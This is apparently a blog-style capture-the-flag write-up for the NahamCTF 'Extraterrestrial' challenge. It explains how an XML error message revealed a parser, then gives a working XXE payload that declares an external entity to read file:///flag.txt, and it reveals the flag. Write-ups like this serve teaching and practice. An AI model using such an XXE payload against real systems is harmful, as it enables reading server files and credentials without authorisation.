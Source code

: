 ```yaml
---
title: "NahamCTF: Extraterrestrial"
categories:
  - NahamCTF
tags:
  - NahamCTF
---
```


"Have you seen any aliens lately? Let us know!

The flag is at the start of the solar system.

Connect here:
http://jh2i.com:50004"

For this challenge, we're given a website with a blank box, and submit button, and a message:

*Extraterrestrial*

*We're doing a study on external life.*

*If you find any alien life forms, please inform us using the form below.* 

Entering "test" into the box and hitting submit returns the following message:

*Not well-formed (invalid token)*

A quick Google search for this tells us that it's an XML error, which means the page is parsing any xml we put into it. We can use XXE along with the hint to grab the flag:

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "file:///flag.txt">
]>
<r>&sp;</r>
```

**flag{extraterrestrial_extra_entities}**
